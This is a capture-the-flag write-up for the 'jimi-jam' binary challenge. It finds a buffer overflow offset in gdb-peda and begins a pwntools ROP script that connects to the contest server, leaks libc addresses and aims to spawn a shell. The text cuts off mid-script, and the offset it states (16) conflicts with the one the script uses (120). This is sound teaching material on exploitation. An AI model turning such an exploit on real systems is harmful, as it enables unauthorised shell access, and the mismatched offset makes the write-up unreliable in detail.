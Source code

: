 # BUFFER OVERFLOW

Let's find the buffer overflow offset with `gdb` :


```console
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA'
```

And search this pattern:

```console
gdb-peda$ pattern search
Registers contain pattern buffer:
[RSP] --> offset 16 - size ~69
```

So the sweet spot is at `16`

# SOLUTION

Because of the security, we have to find :

- System address : We can use the given address to retreive the system address.
- Libc address : We can use `puts@plt` to get the offset of `read@got`.

With this information, we'll able to get a shell and get the flag :

```python
#!/usr/bin/env python

from pwn import *
from pprint import pprint

# Use local libc.so.6
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
# Use remote libc.so.6
libc = ELF("./libc.so.6")

# Load our binary
elf = ELF("./jimi-jam")
# Start a process
# p = elf.process()
p = remote('challenges.2020.squarectf.com',9000)

# Set context of architecture
context.arch='amd64'
# For gdb debugging
context.terminal = ["tmux", "splitw", "-h"]

# Offset of the buffer overflow
offset = 120
# Offset of puts@plt
offset_puts_plt = 0x00000000000010b0 # elf.sym["puts"] gives a different value, why ?

# ROPGADGET
rop = ROP(elf)
# Gathering gadget
GADGETS = {
    # For puts@plt
    "pop_rdi" : (rop.find_gadget(['pop rdi', 'ret']))[0],
    # For one_gadget
```